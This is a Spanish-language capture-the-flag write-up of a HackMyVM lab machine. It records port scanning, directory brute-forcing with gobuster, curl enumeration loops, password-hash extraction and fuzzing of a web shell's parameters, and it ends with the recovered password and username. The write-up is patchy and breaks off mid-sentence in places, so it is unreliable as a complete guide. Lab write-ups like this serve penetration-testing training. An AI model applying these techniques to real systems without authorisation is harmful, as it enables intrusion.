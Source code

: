 ```yaml
---
title:      "Jabita"
excerpt:    "Hoy vamos a realizar la primera máquina de un compañero de la comunidad de HackMyVM, Rijaba1. Emplearemos un par de técnicas nuevas que aún no habíamos visto en el blog."
toc:        true
toc_label:  "Tabla de contenidos"
toc_icon:   "key"
header:
  teaser: /assets/images/arroutada/prev.png
  teaser_home_page: true
  icon: /assets/images/HMV.png
classes:    wide
categories:
  - HackMyVM
tags:  
  - Easy
  - Linux
  - Directory traversal
  - Brute force
  - Fuzzing
  - Python library hijacking
  - Sudo abuse
---
```


![](/assets/images/arroutada/prev.png){: .align-center}

Hoy vamos a realizar la primera máquina de un compañero de la comunidad de HackMyVM, Rijaba1. Emplearemos un par de técnicas nuevas que aún no habíamos visto en el blog.


## Reconocimiento de Puertos

En primer lugar averiguamos la IP de la máquina víctima:

~~~bash
❯ sudo arp-scan -l | grep "PCS"
192.168.1.135 08:00:27:4a:fe:69 PCS Systemtechnik GmbH
~~~

Ahora definimos la IP en una variable para no tener que escribirla todo el rato, y realizamos el reconocimiento de puertos con un pequeño [script](https://github.com/KaianPerez/nmapauto.sh) que creé para automatizar este proceso inicial:

~~~bash
❯ ./nmapauto.sh $ip

 [*] Reconocimiento inicial de puertos

Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 18:44 CET
Initiating Ping Scan at 18:44
Scanning 192.168.1.135 [2 ports]
Completed Ping Scan at 18:44, 0.00s elapsed (1 total hosts)
Initiating Connect Scan at 18:44
Scanning 192.168.1.135 [65535 ports]
Discovered open port 80/tcp on 192.168.1.135
Completed Connect Scan at 18:44, 3.32s elapsed (65535 total ports)
Nmap scan report for 192.168.1.135
Host is up (0.00031s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.37 seconds

 [*] Escaneo avanzado de servicios

Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-19 18:44 CET
Nmap scan report for 192.168.1.135
Host is up (0.00031s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Site doesn't have a title (text/html).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds

 [*] Escaneo completado, se ha generado el fichero InfoPuertos
 ~~~

Aquí no tenemos más remedio que irnos al puerto 80 jeje, así que vamos a ver qué nos muestra:

![](/assets/images/arroutada/index.png){: .align-center}

Solamente hay una imagen .png y en el 




~~~bash
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt,html -u $ip
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.135
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
2023/01/19 18:50:10 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 59]
/imgs                 (Status: 301) [Size: 313] [--> http://192.168.1.135/imgs/]
/scout                (Status: 301) [Size: 314] [--> http://192.168.1.135/scout/]
/server-status        (Status: 403) [Size: 278]                                  
                                                                                 
===============================================================
2023/01/19 18:51:35 Finished
===============================================================
~~~

En */imgs* solo está la imagen del index, pero en */scout* hay algo interesante:

![](/assets/images/arroutada/scout.png){: .align-center}

Vamos a fuzzear en ese directorio:

~~~bash
❯ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -x php,txt,html -u $ip/scout
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.135/scout
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2023/01/19 18:56:48 Starting gobuster in directory enumeration mode
===============================================================
/html                 (Status: 301) [Size: 319] [--> http://192.168.1.135/scout/html/]
/java                 (Status: 301) [Size: 319] [--> http://192.168.1.135/scout/java/]
/links                (Status: 301) [Size: 320] [--> http://192.168.1.135/scout/links/]
/1                    (Status: 301) [Size: 316] [--> http://192.168.1.135/scout/1/]    
/img                  (Status: 301) [Size: 318] [--> http://192.168.1.135/scout/img/]  
/exploits             (Status: 301) [Size: 323] [--> http://192.168.1.135/scout/exploits/]
/download             (Status: 301) [Size: 323] [--> http://192.168.1.135/scout/download/]
/content              (Status: 301) [Size: 322] [--> http://192.168.1.135/scout/content/] 
/index.html           (Status: 200) [Size: 779]                                           
/scan                 (Status: 301) [Size: 319] [--> http://192.168.1.135/scout/scan/]    
/data                 (Status: 301) [Size: 319] [--> http://192.168.1.135/scout/data/]    
/j1                   (Status: 301) [Size: 317] [--> http://192.168.1.135/scout/j1/]      
/j2                   (Status: 301) [Size: 317] [--> http://192.168.1.135/scout/j2/]      
/bye                  (Status: 301) [Size: 318] [--> http://192.168.1.135/scout/bye/]     
/spell                (Status: 301) [Size: 320] [--> http://192.168.1.135/scout/spell/]   
                                                                                          
===============================================================
2023/01/19 18:58:15 Finished
===============================================================
~~~

Bien, encontramos nuevos recursos, por lo que vamos a guardarlos en un fichero y dejar solamente los directorios (se podría copiar con ctrl+alt la selección con Kitty, pero lo haremos como si no la usáramos):

~~~bash
❯ nano dir.txt
❯ cut -d "" -f1 < dir.txt > dict
~~~

Crearemos un pequeño script para que haga el chequeo de eses directorios tal y como nos daba la pista.

~~~bash
#!/bin/bash

while IFS= read -r line
do
   curl http://192.168.1.135/scout$line/docs >> curl.txt
done < dict
~~~

~~~bash
#!/bin/bash

for x in {1..999}; do
    curl http://192.168.1.135/scout/j2/docs/z$x >> resultado
done 
~~~

~~~
python3 /usr/share/john/libreoffice2john.py shellfile.ods > hash
~~~



~~~
❯ gobuster fuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -u "$ip/thejabasshell.php?a=id&b=FUZZ" -b 400 --exclude-length 33
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.135/thejabasshell.php?a=id&b=FUZZ
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Excluded Status codes:   400
[+] Exclude Length:          33
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/20 03:05:43 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=54] http://192.168.1.135/thejabasshell.php?a=id&b=pass
~~~

La contraseña del fichero shellfile.ods es john11
El usuario es Jabatito